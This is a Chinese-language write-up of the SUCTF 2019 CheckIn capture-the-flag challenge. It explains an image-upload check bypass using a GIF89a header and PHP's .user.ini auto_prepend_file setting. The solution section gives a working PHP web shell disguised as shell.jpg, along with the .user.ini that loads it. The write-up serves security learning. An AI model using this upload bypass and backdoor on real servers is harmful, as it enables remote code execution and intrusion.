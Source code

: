 # [SUCTF 2019]CheckIn

## 考点

- 图片上传绕过
- `.user.ini`文件

### exif_imagetype

```
exif_imagetype
(PHP 4 >= 4.3.0, PHP 5, PHP 7, PHP 8)
exif_imagetype — 判断一个图像的类型
说明：
exif_imagetype ( string $filename ) : int
exif_imagetype() 读取一个图像的第一个字节并检查其签名。

GIF89a图片头文件欺骗可以绕过
```

### .user.ini的知识

那么什么是.user.ini？

这得从php.ini说起了。php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：PHP_INI_SYSTEM、PHP_INI_PERDIR、PHP_INI_ALL、PHP_INI_USER。 在此可以查看：PHP: php.ini 配置选项列表 - Manual 这几种模式有什么区别？看看官方的解释：
![img]([SUCTF 2019]CheckIn/20210205232328205.png)

`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。（上面表格中没有提到的PHP_INI_PERDIR也可以在.user.ini中设置）

实际上，除了PHP_INI_SYSTEM以外的模式（包括PHP_INI_ALL）都是可以通过.user.ini来设置的。

而且，和php.ini不同的是，.user.ini是一个能被动态加载的ini文件。也就是说我修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载。

然后我们看到php.ini中的配置项，可惜我沮丧地发现，只要稍微敏感的配置项，都是PHP_INI_SYSTEM模式的（甚至是php.ini only的），包括disable_functions、extension_dir、enable_dl等。 不过，我们可以很容易地借助.user.ini文件来构造一个“后门”。

php配置项中有两个比较有意思的项（下图第一、四个）：

![img]([SUCTF 2019]CheckIn/20210205232411887.png)

**`auto_append_file，`指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：**

```ini
auto_prepend_file=shell.jpg
```



## 解题

- 制作shell.jpg图片马，并上传

```php
GIF89a?
<script language="php">eval($_GET['y0lo']);</script>
```

- 制作`.user.ini`文件，并上传

```ini
GIF89a?
auto_prepend_file=shell.jpg
```

![image-20220203205140080]([SUCTF 2019]CheckIn/image-20220203205140080.png)